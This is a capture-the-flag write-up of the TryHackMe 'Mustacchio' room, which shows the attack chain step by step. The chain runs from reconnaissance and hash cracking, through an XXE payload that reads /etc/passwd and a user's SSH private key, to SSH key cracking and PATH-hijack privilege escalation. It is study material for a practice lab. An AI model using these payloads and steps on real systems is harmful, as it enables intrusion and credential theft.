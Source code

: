 # CTF-Write-up

## Try Hack Me - Mustacchio

##### URL: https://tryhackme.com/room/mustacchio

##### Created by _https://tryhackme.com/p/zyeinn_

![logo](https://user-images.githubusercontent.com/20625004/187385183-721c157c-5b71-4977-b5bc-d39375de5b57.PNG)

You should deploy the machine first.

Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

Run nmap against the target machine.

```nmap -sC -A  <target IP>```

Ports 22 and 80.

Lets view port 80.

![80](https://user-images.githubusercontent.com/20625004/187385417-28e86e50-0cf3-4c4b-9c3a-842e34249e59.PNG)

With the use of ``ffuf`` tool we try to find intersing directories.

``fuf -u http://targgetIP/FUZZ -c -v -w /path/to/wordlist``

![custom](https://user-images.githubusercontent.com/20625004/187386233-5c381a8b-e78c-4770-98e5-28bcee8c3087.PNG)


Accessing the ``custom`` directory reveals another directory ``js`` beneath that, we’ find a ``users.bak`` file and download it.

![custom_js](https://user-images.githubusercontent.com/20625004/187386684-63eace75-a7f7-4ac9-9d33-4b8383209291.PNG)


![bak](https://user-images.githubusercontent.com/20625004/187388454-8ec4242d-fc82-40a4-a578-8436002b34cd.PNG)


with command ``file`` we found that the file is an SQLite database, and we can view the content with ``cat`` command.

We have a user called "admin" with a hash id. With ``hash-identifier`` tool we found that the hash is sha1.


![hash](https://user-images.githubusercontent.com/20625004/187388019-324effee-e859-44d4-bc46-e0c5f5b0c57a.PNG)

In order to find the password you can use online tools such as ``https://crackstation.net/`` or tools such as ``john``.

We will use ``john`` with the following command since we know the hash is of sha1.

``john --format=raw-sha1 sha.txt --wordlist=/path/to/wordlist/``

We finally found the password. Since ``SSH`` port is also open we try to access with username ``admin``.

``ssh admin@targetIP``

No success, after further enumaration we use again ``nmap`` now with all ports.

``nmap -sC -A  <target IP> -p- ``

We found a new port ``8765``.

Now we see a portal.

![admin_panel](https://user-images.githubusercontent.com/20625004/187389686-b8a0e787-68cd-4036-b699-58c3b7204989.PNG)

We use the ``admin`` username and the password that we found earlier and we access the web application.

![admin_panel_1](https://user-images.githubusercontent.com/20625004/187390006-ee1bd23f-f784-4543-b106-500cbe053e59.PNG)

It appears that we can add a comment to the website. Further by inspecting the source code of the page there is comment about another user and an ssh key.

![otheruser](https://user-images.githubusercontent.com/20625004/187390871-e02e78fd-4edb-4481-a9b7-f5e37edc0af5.PNG)

Back on the page we found we try to post something and error pops up that says: ``“Insert XML Code!”``.

Maybe the website is vulnerable to ``XML``, following the guideline ``https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing`` we try to inject with the comment area the below code.

```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment [<!ENTITY read SYSTEM "/etc/passwd"> ]>
<comment>
  <name>test</name>
  <author>test</author>
  <com>&read;</com>
</comment>
```


![passwd](https://user-images.githubusercontent.com/20625004/187391967-214ddd6d-4440-4658-bafe-891f5bdd41ec.PNG)

Now we can read the contents of ``/etc/passwd`` and get a list of users on the system. We found two users and for the one user we have the comment from
the source code informing us about an ssh key.

We can use that information and further use a payload to read the contents of tha file for the given user.

We can modiy the payload we used earlier and include ``'file:///home/username/.ssh/id_rsa'`` by using the default location of ``id_rsa``.

![ssh_key](https://user-images.githubusercontent.com/20625004/187399534-60c4bc80-1c86-4781-9d97-181548da779f.PNG)


Now we found the users ssh key. Copy the whole key (lets call it id_rsa) to a file on your machine machine. The key is ENCRYPTED, and password protected. 
We need to use ``ssh2john`` tool and the crack it with ``john``. 

First we need to convert to a hash that ``john`` can use it to crack it.

``ssh2john id_rsa > hash ``  then ``john hash --wordlist=/path/to/wordlist/``.

![cracked](https://user-images.githubusercontent.com/20625004/187400508-a34b125c-9261-4ee1-8126-4068f9283197.PNG)

Change permission on the file id_rsa we created earlier ``chmod 700 id_rsa``.

With that password logg in via ``SSH``. 

``ssh -i id_rsa username@targetip``.

Sucess we enterd and on the users home directory you can find the first flag.

![user_flag](https://user-images.githubusercontent.com/20625004/187401613-e31f17b2-09f9-4011-958e-0f1a36bdf89e.PNG)

On second's user home directory there is a file ``/home/username/live_log``.

![live](https://user-images.githubusercontent.com/20625004/187402273-23df595e-d136-486c-abf0-c59a53da6fd5.PNG)

To further inspect the file we use commands ``file`` and ``strings``.

We observer that the binary executed the ``tail`` command to show the content of the ``/var/log/nginx/access.lo`` file. In order to exploit it, we
need to go ``/tmp`` folder, and create a ``tail`` file and  spawn a new bash instance, and added this one to the path and executed it again.

```#!/bin/bash

/bin/bash -p
```

Make the file we created executable ``chmod +x /tmp/tail``.

![flag_second](https://user-images.githubusercontent.com/20625004/187403642-b467b8ec-b41e-4173-8f70-91de7dace971.PNG)


